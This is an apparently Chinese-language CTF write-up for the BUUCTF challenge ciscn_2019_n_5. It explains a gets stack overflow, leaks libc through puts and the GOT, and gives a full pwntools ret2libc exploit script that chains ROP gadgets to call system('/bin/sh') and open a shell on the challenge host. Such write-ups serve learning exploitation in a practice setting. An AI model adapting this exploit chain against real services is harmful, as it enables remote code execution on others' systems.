 ### Puts 泄露 Libc

话不多说，直接上题（BUUCTF）

![](https://pic1.imgdb.cn/item/67a7063ad0e0a243d4fcff38.png)

gets 明显存在溢出，但是没有给出后门函数及可利用字符串，需要先泄露 libc 基址

左边 plt 表中有 puts 函数，可通过调用 puts 函数打印 puts 在 got 表中的地址来计算 libc 地址

![](https://pic1.imgdb.cn/item/67a70653d0e0a243d4fcff3c.png)

缓冲区的垃圾数据是 40 字节

![](https://pic1.imgdb.cn/item/67a70684d0e0a243d4fcff44.png)

先使用工具获取 pop rdi 及 ret 地址

![](https://pic1.imgdb.cn/item/67a71baed0e0a243d4fd092b.png)

构造 payload

```python
from pwn import *

p = remote('node5.buuoj.cn',28632)

elf = ELF('./ciscn_2019_n_5')

puts_got = elf.got['puts']
puts_plt = elf.plt['puts']

main = 0x400636
pop_rdi = 0x400713
ret = 0x4004c9

p.recvuntil('name\n')
p.sendline('aaa')
p.recvuntil('me?\n')

payload = b'a' * 40 + p64(pop_rdi) + p64(puts_got) + p64(puts_plt) + p64(main)
p.sendline(payload)

puts_add = u64(p.recv(6).ljust(8,b'\x00'))

# 偏移网上找的
system = puts_add - 0x31580
binsh = puts_add + 0x1334da

p.recvuntil('name\n')
p.sendline('aaa')
p.recvuntil('me?\n')

payload = b'a'*0x28 + p64(pop_rdi) + p64(binsh) + p64(ret) + p64(system)
p.sendline(payload)
p.interactive()
```

成功拿到 flag

![](https://pic1.imgdb.cn/item/67a707c5d0e0a243d4fd0186.png)
